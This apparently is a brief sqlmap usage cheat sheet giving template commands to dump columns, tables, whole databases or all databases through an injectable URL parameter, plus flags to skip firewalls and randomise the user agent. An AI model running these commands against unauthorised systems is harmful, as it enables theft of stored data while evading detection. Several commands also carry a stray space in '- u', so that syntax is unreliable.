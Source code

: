 						
<h2>SQLmap Usage</h2>

 **TO FETCH ONLY COLUMN'S DATA
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump` 

 **TO FETCH ONLY ALL COLUMN & ITS DATA
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

 **TO FETCH ENTIRE DATABASE'S DATA 		     
 `sqlmap - u "url?prm=" -p prm -D dbname  --dump`

 **TO FETCH ALL DATABASES
 `sqlmap - u "url?prm=" -p prm --dbs  --dump` 
 or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
* Parameters    **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
* Optimised Url **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

